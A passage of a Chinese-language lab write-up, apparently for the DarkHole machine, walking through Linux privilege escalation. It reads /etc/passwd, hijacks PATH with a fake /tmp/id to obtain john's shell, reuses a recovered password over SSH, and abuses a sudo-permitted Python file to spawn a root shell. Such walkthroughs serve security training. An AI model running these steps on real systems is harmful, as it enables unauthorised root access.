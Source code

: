 `cat /etc/passwd | grep /bin/bash`

![在这里插入图片描述](https://img-blog.csdnimg.cn/6a12ec531a764720b4fe1d4404edd298.png)

进入到 darkhole 与 john 用户的 home 目录，寻找有用信息。在 john 目录下发现一些有趣的文件。

![在这里插入图片描述](https://img-blog.csdnimg.cn/b8754765a31144b1a087f77648c6031b.png)

==password== 与 ==user.txt== 文件无权查看。
运行一下 ==toto== 文件，发现它以 john 用户的身份运行类似 `id` 的命令。

![在这里插入图片描述](https://img-blog.csdnimg.cn/011d0ae196bc4264bd55da79d86fe37e.png)

那就尝试使用该文件提权。

1. 在本地编辑新的 ==id== 文件，写入 /bin/bash，给执行权限。
2. 然后将文件路径写入到原有环境变量前，这样使用 `id` 命令时就会优先匹配此路径下的 ==id== 文件运行。
3. 所以运行 ==toto== 文件使用 john 身份调用 `id` 命令，实际上就是使用 john 身份调用 ==id== 文件运行，即可获得 john 的 shell。

**创建一个新 id 文件**：
`echo '/bin/bash' > /tmp/id`

**赋予权限**：
`chmod +x /tmp/id`

**改变环境变量**：
`export PATH=/tmp:$PATH`

![在这里插入图片描述](https://img-blog.csdnimg.cn/be7edd28fb44407ba0f9265636791297.png)

然后运行 ==toto== 文件即获得 john 权限。

![在这里插入图片描述](https://img-blog.csdnimg.cn/21af2d1251a947fb9f2bf0cdce2f0104.png)

之后查看 ==/home/john/== 下原本无权查看的 ==password== 文件与 ==user.txt== 文件。

![在这里插入图片描述](https://img-blog.csdnimg.cn/b97bc5d290bd43a59c4ee47ffb3f930b.png)

得到一个密码：root123。猜测是 john 用户的相关密码。

同时目标开启了 22 端口，提供 ssh 服务。尝试使用 john 账户登录。

![在这里插入图片描述](https://img-blog.csdnimg.cn/b159d71229b2471196eade49b616731e.png)

现在仍然是 john 账户，接下来提权到 root。

**查看用户能够使用 sudo 运行的命令**：
`sudo -l`

![在这里插入图片描述](https://img-blog.csdnimg.cn/64887655ae034135b12c126dc2864dee.png)

> 运行 `sudo -l`，用户可以了解自己在系统上具有的 sudo 权限，以及可以运行的特权命令与文件。

可以看到 john 用户可以以管理员身份运行 ==/home/john/file.py==。

 - 那么只要通过此文件执行获取 shell，即可获得管理员权限。

1. 将获取 shell 的命令加入到此 python 文件。
`echo 'import os;os.system("/bin/bash")' > file.py`
2. 以管理员身份执行即可。
`sudo python3 /home/john/file.py`
